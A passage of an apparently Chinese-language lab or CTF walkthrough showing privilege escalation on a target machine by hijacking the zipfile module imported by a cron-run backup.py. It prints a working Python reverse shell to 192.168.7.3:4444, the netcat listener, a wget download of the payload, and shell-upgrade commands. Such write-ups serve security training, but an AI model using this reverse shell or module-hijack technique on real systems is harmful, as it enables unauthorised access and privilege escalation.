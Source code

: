 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

可以看到UID1000的用户每分钟便执行一次backup.py脚本

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这个UID就是carlos用户，我们可以利用这个脚本提权,再来看一下脚本

```
cat backup.py
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

这里引用了zipfile，我们可以在backup.py文件的目录下创建一个zipfile.py文件

kali攻击上操作

先监听4444端口

```
nc -lvvp 4444
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

再创建zipfile.py文件

```
`import socket,subprocess,os``s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)``s.connect(("192.168.7.3",4444))``os.dup2(s.fileno(),0)``os.dup2(s.fileno(),1)``os.dup2(s.fileno(),2)``p=subprocess.call(["/bin/sh","-i"])`
```

开启http服务

```
python3 -m http.server
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

靶机上下载zipfile.py文件

```
wget http://192.168.7.3:8000/zipfile.py
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

稍等一会靶机上便会自动执行backup.py脚本

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

反弹成功，切换成交互式shell

```
`python3 -c 'import pty;pty.spawn("/bin/bash")'``export TERM=xterm``Ctrl+z快捷键``stty -a``stty raw -echo;fg``reset`
```
